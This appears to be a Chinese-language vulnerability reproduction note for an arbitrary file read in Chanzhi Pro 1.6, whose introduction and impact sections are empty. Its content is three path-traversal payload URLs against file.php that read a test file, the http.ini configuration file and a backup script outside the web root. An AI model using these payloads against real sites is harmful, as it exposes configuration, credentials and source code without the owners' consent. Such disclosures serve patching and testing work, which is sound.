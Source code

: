# 禅知 Pro 1.6 前台任意文件读取

### 一、漏洞简介

### 二、漏洞影响

### 三、复现过程

在网站根目录C:\xampp\chanzhi\www新建一个测试文件test.php

![](images/15897246284877.png)


执行payload查看文件内容：


```bash
http://url/file.php?pathname=../test.php&t=txt&o=source
```

![](images/15897246455810.png)


执行payload来查看程序的配置文件：


```bash
http://url/file.php?pathname=../http.ini&t=txt&o=source
```

![](images/15897246615371.png)


跨目录读取文件（前提是有目录权限）：


```bash
http://url/file.php?pathname=../../bin/php/backup.php&t=txt&o=source
```